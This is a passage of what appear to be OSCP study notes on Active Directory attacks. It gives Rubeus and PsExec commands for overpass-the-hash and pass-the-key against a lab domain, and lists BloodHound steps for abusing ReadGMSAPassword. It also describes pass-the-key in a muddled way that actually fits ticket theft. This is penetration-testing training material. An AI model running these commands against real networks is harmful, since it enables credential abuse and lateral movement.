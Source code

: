 Possible issues

- PyAsn1Error(‘NamedTypes can cast only scalar values’,) : Resolved by updating impacket to the lastest version.
- KDC can’t found the name : Resolved by using the hostname instead of the IP address, because it was not recognized by Kerberos KDC.

### OverPass-The-Hash Via rubeus/psexec

```cmd
.\Rubeus.exe asktgt /domain:jurassic.park /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd
```

### Pass-The-Key with Rubeus

This kind of attack is similar to Pass the Key, but instead of using hashes to request for a ticket, the ticket itself is stolen and used to authenticate as its owner.

*When a TGT is requested, event 4768: A Kerberos authentication ticket (TGT) was requested is generated.  You can see from the output above that the KeyType is RC4-HMAC (0x17), but the default type for Windows is now AES256 (0x12).*

```cmd
.\Rubeus.exe asktgt /user:<USERNAME> /domain:<DOMAIN> /aes256:HASH /nowrap /opsec
```



notes from https://www.youtube.com/watch?v=xowytiyooBk (great youtube vid)


# Top 10
[back to top](#index)


Ten attacks you should master for the OSCP using Bloodhound and powerview:

## 10. ReadGMSAPassword 
Description: ReadGMSAPassword allows an attacker to use the password of a Group Managed Service Account which usually has elevated privileges. 
Environment: Search from HacktheBox

From bloodhound, Shortest path--> Click each one. Get to shortest path and see ReadGMSAPassword

![image](https://user-images.githubusercontent.com/83407557/186248120-6d42b931-e1e4-4d00-bc3e-aa68134fc3bb.png)

![image](https://user-images.githubusercontent.com/83407557/186248626-9a4746c2-56fd-406b-b116-e01b7c44828c.png)

![image](https://user-images.githubusercontent.com/83407557/186248787-79af81a7-4bf6-4fac-909e-a4b4e6c986da.png)

![image](https://user-images.githubusercontent.com/83407557/186249143-98b427ce-eec7-48fc-953d-1eb2fc8a2d48.png)

![image](https://user-images.githubusercontent.com/83407557/186249844-6f736f2d-5383-4ea2-933d-0fe0a507d028.png)
